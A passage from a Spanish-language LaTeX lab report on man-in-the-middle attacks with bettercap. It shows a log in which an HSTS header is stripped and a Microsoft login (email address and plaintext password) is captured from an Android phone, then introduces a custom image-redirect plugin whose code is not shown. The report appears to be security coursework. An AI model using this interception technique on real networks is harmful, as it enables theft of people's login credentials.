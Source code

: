 \begin{lstlisting}[style=base]
  2017-11-25 17:30:45 10.0.0.168 [type:Chrome Mobile-62 os:Android] POST Data (login.live.com):
  {"username":"fedomartinez@hotmail.com","uaid":"6624e94e138e428381c78633a1ab0e74","isOtherIdpSupported":false,"checkPhones":false,"isRemoteNGCSupported":true,"isCookieBannerShown":false,"isFidoSupported":false,"flowToken":"DQhHzeNTqKgxInlQhD31Nw0SsDGg7fJHgiMMlRv1h0E1CW!Aa4LxVqOMMnjVW6PLiF9GhG!OiSWI3hmjm7sieMn2*AysxGtCrV*OFOjsCncmhYVa*OLGWxKpw6wat5kyAk56pUr8xE*ac82nr6IWxvZ0XEIOqIHPMedKY2R2J*R47bzX34e7DNlSj1*lIXI6kAai7ZTgChw7YBHUQMyi!4cQTKAlGLTo28D*FPygvU!EG0OSa*mPnRxBol1fRmNZ3s5Unh2dDJgoQzFwDnSDswE$"}
  2017-11-25 17:30:45 10.0.0.168 [type:Chrome Mobile-62 os:Android] Zapped a strict-transport-security header
  2017-11-25 17:30:46 10.0.0.168 [type:Chrome Mobile-62 os:Android] auth.gfx.ms
  2017-11-25 17:31:00 10.0.0.168 [type:Chrome Mobile-62 os:Android] POST Data (login.live.com):
  i13=0&@login=fedomartinez%40hotmail.com@&loginfmt=fedomartinez%40hotmail.com&type=11&LoginOptions=3&lrt=&lrtPartition=&hisRegion=&hisScaleUnit=&@passwd=prueba@&ps=2&psRNGCDefaultType=&psRNGCEntropy=&psRNGCSLK=&psFidoAllowList=&canary=&ctx=&PPFT=DQhHzeNTqKgxInlQhD31Nw0SsDGg7fJHgiMMlRv1h0E1CW%21Aa4LxVqOMMnjVW6PLiF9GhG%21OiSWI3hmjm7sieMn2*AysxGtCrV*OFOjsCncmhYVa*OLGWxKpw6wat5kyAk56pUr8xE*ac82nr6IWxvZ0XEIOqIHPMedKY2R2J*R47bzX34e7DNlSj1*lIXI6kAai7ZTgChw7YBHUQMyi%214cQTKAlGLTo28D*FPygvU%21EG0OSa*mPnRxBol1fRmNZ3s5Unh2dDJgoQzFwDnSDswE%24&PPSX=Pa&NewUser=1&FoundMSAs=&fspost=0&i21=0&CookieDisclosure=0&i2=36&i17=0&i18=__ConvergedLoginPaginatedStrings%7C1%2C__ConvergedLogin_PCore%7C1%2C&i19=71540
\end{lstlisting}

Claramente se puede ver que al generar una conexión HTTP a un dominio falso que se hace pasar por uno verdadero podemos interceptar información 
sensible que de otra manera no podríamos descifrar en una conexión HTTPS. En esta caso, tanto el mail como el password de nuestro dispositivo 
fueron comprometidos.

\subsubsection{Intercepción y modificación de imágenes por HTTP}

Para esta prueba, decidimos utilizar \textbf{bettercap} para modificar requests de imágenes que viajan por tráfico HTTP y redigirlas a otra 
imagen que nosotros especifiquemos. En este caso, dado que no encontramos un plugin de bettercap que nos permita redirigir imágenes, decidimos 
crear el nuestro propio. A continuación el código del mismo:

